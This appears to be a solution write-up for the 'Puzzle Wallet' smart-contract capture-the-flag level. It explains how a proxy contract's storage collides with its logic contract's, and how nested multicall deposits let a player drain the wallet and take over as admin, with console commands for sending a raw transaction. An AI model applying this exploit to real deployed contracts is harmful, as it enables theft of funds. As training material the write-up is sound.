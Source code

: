 # Puzzle Wallet

Nowadays, paying for DeFi operations is impossible, fact.

A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.

They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.

Little did they know, their lunch money was at risk…

  You'll need to hijack this wallet to become the admin of the proxy.

  Things that might help::

Understanding how delegatecalls work and how msg.sender and msg.value behaves when performing one.
Knowing about proxy patterns and the way they handle storage variables.

### Description
In an easy word, _Proxy_ and _Logic_ contracts share storage via `delegatecall`, that means `pendingAdmin` is `owner` as well as `admin` is `maxBalance`.

| Slot | Variable           |
|------|--------------------|
| 0    | pendingAdmin/owner |
| 1    | admin/maxBalance   |
| 2    | whitelisted        |
| 3    | balances           |

In this sense, you can guess that `admin` can be set to a new value via `maxBalance`.
In order to set `maxBalance`, you have to be whitelisted as well as the wallet contract's ether balance has to be 0.
In order to add someone in whiltelist, you have to be `owner`.
In order to be `owner`, you can set `pendingAdmin` as yourself through `proposeNewAdmin` in `PuzzleProxy`.
Once you are whiltelisted, you can call `execute` and `multicall` strategically to steal ethers from the wallet contract.

### Step by step

1. Propose yourself as a new owner
2. Add yourself in whitelist
3. Manipulate your balance
4. Drain out ETH
   - `multicall([deposit, multicall([deposit])])`
   - `execute(yourself)`
5. Set `maxBalance` to be a new admin

## Test in console
contract.abi
(10) [{…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}]0: {inputs: Array(1), name: 'addToWhitelist', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}1: {inputs: Array(1), name: 'balances', outputs: Array(1), stateMutability: 'view', type: 'function', …}2: {inputs: Array(0), name: 'deposit', outputs: Array(0), stateMutability: 'payable', type: 'function', …}3: {inputs: Array(3), name: 'execute', outputs: Array(0), stateMutability: 'payable', type: 'function', …}4: {inputs: Array(1), name: 'init', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}5: {inputs: Array(0), name: 'maxBalance', outputs: Array(1), stateMutability: 'view', type: 'function', …}6: {inputs: Array(1), name: 'multicall', outputs: Array(0), stateMutability: 'payable', type: 'function', …}7: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}8: {inputs: Array(1), name: 'setMaxBalance', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}9: {inputs: Array(1), name: 'whitelisted', outputs: Array(1), stateMutability: 'view', type: 'function', …}length: 10[[Prototype]]: Array(0)

contract.address
'0xdcde1dfC141EE526afE58C48be75835565806f7C'

await contract.owner();
'0xe13a4a46C346154C41360AAe7f070943F67743c9'

from contract.abi, it means we interact directly with PuzzleWallet contract not PuzzleProxy.
it cannot directly call the function `proposeNewAdmin` inside PuzzleProxy. Solve by using Remix to load your ABI PuzzleProxy into the address of the instance, or call it via function signature.

### Method1: call function signature and send transaction via console

function signature of the functionproposeNewAdmin:
```shell
web3.eth.abi.encodeFunctionSignature("proposeNewAdmin(address)");
> '0xa6376746'
```
encode parameter:
```shell
web3.eth.abi.encodeParameter("address", player);
> '0x000000000000000000000000c3a005e15cb35689380d9c1318e981bca9339942'
```
Called data will be signature + encoded parameters:
```shell
contract.sendTransaction({ data: '0xa6376746000000000000000000000000c3a005e15cb35689380d9c1318e981bca9339942' });
```

### Method 2 using remix to load your ABI PuzzleProxy into the address of the instance
see solution in ....
In this file, we use Alchemy web3 plugin to interact with metamask when send the raw transaction to contract.

Verify result that you are the new owner:
```shell
await contract.owner();
```
Add yourself into whitelist:
```shell
contract.addToWhitelist(player);
```

Step3 - Step 5 see solution in file ....